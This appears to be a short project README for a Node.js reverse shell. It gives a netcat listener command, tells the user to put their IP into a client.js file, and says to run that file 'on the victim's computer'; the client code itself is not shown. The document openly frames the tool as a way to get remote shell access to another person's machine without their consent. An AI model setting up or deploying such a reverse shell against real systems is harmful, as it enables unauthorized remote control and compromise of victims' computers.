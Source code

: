 <hr>

# Reverse Shell

### Reverse Shell made in Node.js, to use open a port and listen to it. You can do this easily with netcat.

```
nc -l -p 8080
```

### Now put your IP in the IP variable inside the client.js file

```js
var IP = "YOU IP"
```

### Now run the client.js file on the victim's computer, make sure she has the node and lib child_process installed

<p align="center">

    ![print]()

</p>
<hr>
